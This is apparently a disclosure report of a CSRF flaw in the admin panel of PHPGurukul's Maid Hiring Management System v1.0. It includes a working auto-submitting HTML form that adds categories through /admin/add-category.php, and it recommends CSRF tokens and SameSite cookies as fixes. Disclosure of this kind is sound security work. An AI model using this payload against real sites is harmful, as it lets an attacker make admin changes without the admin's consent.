 **Project Name & Repo URL:**
[Maid Hiring Management System using PHP and MySQL](https://phpgurukul.com/maid-hiring-management-system-using-php-and-mysql/)

**Vulnerability Type:**
Client Side Request Forgery

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the admin panel of PHPGurukul Hiring Management System, allowing an attacker to add arbitrary hiring categories by tricking an authenticated admin into visiting a malicious site. This can lead to data pollution and unauthorized admin-level changes.

**👩‍💻Impact:**
Unauthorized category creation

**🛜Proof-of-Concept (PoC)**
1)There was a category add functionality where only authenticated admin can add category.
![1](https://github.com/user-attachments/assets/6547be87-9f43-4e34-b8c0-e4138ac3f9e3)
2)HTML code to send POST request to the endpoint `/admin/add-category.php`
**CSRF-POC**
![2](https://github.com/user-attachments/assets/cc01b049-b558-4020-8a0c-c3f0792f0cf7)
```
<html>
  <body>
    <form action="http://127.0.0.1/mhms/admin/add-category.php" method="POST">
      <input type="hidden" name="catname" value="CSRF&#45;POC" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
3)Use the HTML code and craft a malicious URL.
![3](https://github.com/user-attachments/assets/3c0305b7-e978-4926-8652-b536d6702cc3)
4)After Admin clicks on the link, new category will be added.
![4](https://github.com/user-attachments/assets/b32f250a-9eeb-497a-990f-8b9b6a7fb1e3)
![5](https://github.com/user-attachments/assets/c05d5f4e-c1c5-4856-9ca2-f3c0d26c7c7b)

**Recommendation:**
Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.

